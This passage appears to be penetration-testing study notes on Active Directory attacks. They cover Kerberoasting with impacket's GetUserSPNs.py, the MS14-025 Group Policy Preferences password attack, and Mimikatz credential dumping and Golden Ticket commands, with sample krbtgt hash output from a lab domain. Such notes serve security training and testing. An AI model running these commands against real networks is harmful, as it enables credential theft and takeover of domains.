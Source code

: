           - Explanation: under Kerberos, a client (generally either a user or a service) sends a request for a ticket to the Key Distribution Center (KDC). The KDC creates a ticket-granting ticket (TGT) for the client, encrypts it using the client's password as the key, and sends the encrypted TGT back to the client. The client then attempts to decrypt the TGT, using its password. If the client successfully decrypts the TGT (i.e., if the client gave the correct password), it keeps the decrypted TGT, which indicates proof of the client's identity. The TGT, which expires at a specified time, permits the client to obtain additional tickets, which give permission for specific services. The requesting and granting of these additional tickets is user-transparent.
          - Goal Of Kerberoasting: get TGS and decrypt servers account hash
          - Tool: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
          - Attack
            1. Get SPNs, Dump Hash: `python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip-of-DC> -request`
            2. Crack the hash using hashcat
        - Group Policy Preferences Attack also known as MS14-025
          - Explanation: Group Policy Preferences allowed admins to create policies using embedded credentials, these credentials were encrypted and placed in a "cPassword"; the key was accidentally released
          - Attack
            - Manual
              - The file with the encrypted password (and the username) is under `SYSVOL` (everyone can access it) in a file somewhere called `Groups.xml`
              - Use `gpp-decrypt` to decrypt it (https://github.com/t0thkr1s/gpp-decrypt)
            - Automated
              - Metasploit `smb_enum_gpp` module
              - Powershell script: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
            - If the user found can't access the machine we could use this attack + kerberoasting to gain access 
        - Mimikatz: https://github.com/gentilkiwi/mimikatz/releases 
          - Explanation: tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks; it dumps credentials stored in memory
          - Useful for: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket
          - Get saved passwords hashes
            - `privilege::debug`
            - `sekurlsa::logonpasswords`: get all the saved passwords (hash) since last reboot
          - Dump password hashes in memory: `lsadump::lsa /patch`
          - Golden Ticket attack
            - `lsadump::lsa /inject /name:krbtgt`
              ```
              // Example output
              Domain : MARVEL / S-1-5-21-4193793478-4101164478-96150210 // NB
              RID  : 000001f6 (502) 
              User : krbtgt 

              * Primary 
                  NTLM : 9f51b795ef306e33f3931ccfb75930ef // NB
                  LM   : 
                Hash NTLM: 9f51b795ef306e33f3931ccfb75930ef 
                  ntlm- 0: 9f51b795ef306e33f3931ccfb75930ef 
                  lm  - 0: 3722dd304d7ec006ab994b924304bae3 
              ```
